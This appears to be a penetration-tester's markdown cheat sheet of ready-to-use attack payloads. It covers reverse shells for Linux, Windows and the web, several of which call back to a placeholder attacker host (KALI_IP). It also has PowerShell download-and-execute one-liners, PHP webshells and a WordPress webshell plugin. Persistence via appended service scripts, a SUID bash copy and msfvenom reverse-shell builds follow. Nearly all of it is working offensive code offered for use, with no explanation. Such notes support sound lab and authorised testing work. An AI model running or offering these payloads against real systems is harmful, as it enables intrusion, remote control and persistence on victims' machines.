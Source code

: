# *Linux*
### bash reverse
```shell
/bin/bash -c "bash -i >& /dev/tcp/KALI_IP/LPORT 0>&1"
```
### busybox reverse
```shell
busybox nc KALI_IP 443 -e sh

# https://eins.li/posts/oscp-secret-sauce/
```
### nc
```shell
/path/nc KALI_IP LPORT -e /bin/bash
```
## .sh script reverse
```shell
# bash
echo "bash -i >& /dev/tcp/KALI_IP/443 0>&" >> /path/to/service.sh
chmod +x /path/to/service.sh

# nc
echo >> reverse.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc KALI_IP 443 >/tmp/f" >> /path/to/service.sh
chmod +x /path/to/service.sh
```
## copy bash w/ suid
```shell
cp /bin/bash /tmp && chmod +s /tmp/bash
```

# ***Windows***
## powershell encoded
```shell
# 1 KALI
python3 ps_encode.py

# 2 TARGET
powershell.exe -nop -w hidden -enc encoded_payload...
```
## powercat encoded
```shell
# 1 KALI
python3 cat_encode.py

# 2 TARGET
powershell.exe -nop -w hidden -enc encoded_payload...
```
## powercat manually typed
```shell
# 1 payload
IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP/resources/powercat.ps1');powercat -c KALI_IP -p 443 -e powershell

# 2 use as follows
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP/resources/powercat.ps1');powercat -c KALI_IP -p 443 -e powershell"
```
## nc.exe
```shell
C:\PATH\nc.exe KALI_IP LPORT -e powershell
```

# ***Web***
## php
### bash reverse
```php
<?php exec("/bin/bash -c bash -i >& /dev/tcp/KALI_IP/443 0>&1"); ?>
```
### simple webshell
```php
<?php echo system($_GET['cmd']); ?>
<?php echo passthru($_GET['cmd']); ?>
```
### simple webshell 2
```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
    }
?>
# located at /usr/share/webshells/php/simple-backdoor.php
```
### sincek reverse
```shell
# https://github.com/ivan-sincek/php-reverse-shell
```
### wordpress plugin
```shell
# POST
curl -X POST `tip`:`WPORT`/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php --data 'action=exec&cmd=id'

# GET (or use browser)
curl `tip`:`WPORT`/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php?action=exec&cmd=id

# https://github.com/p0dalirius/Wordpress-webshell-plugin
```
### wordpress plugin 2
```shell
https://github.com/wetw0rk/malicious-wordpress-plugin
```
## asp
### webshell
```shell
https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/webshell
```

## java
### runtime exec
```shell
${script:javascript:java.lang.Runtime.getRuntime().exec("wget http://KALI_IP/reverse -O /tmp/reverse")}
```

# *MSFVenom*
Check [Infinite Logins](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)for help with below 4

## windows reverse
```shell
msfvenom -p windows/shell_reverse_tcp lhost=`mip` lport=443 -f exe > reverse.exe
```

## linux reverse
```shell
msfvenom -p linux/x64/shell_reverse_tcp lhost=`mip` lport=443 -f elf > reverse.elf
```
## php reverse
```shell
msfvenom -p php/reverse_php lhost=`mip` lport=443 -f raw > reverse.php
```
## asp reverse
```shell
msfvenom -p windows/shell/reverse_tcp lhost=`mip` lport=443 -f asp > reverse.asp
```

# ***upgrade shell***
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
^z

stty raw -echo;fg
```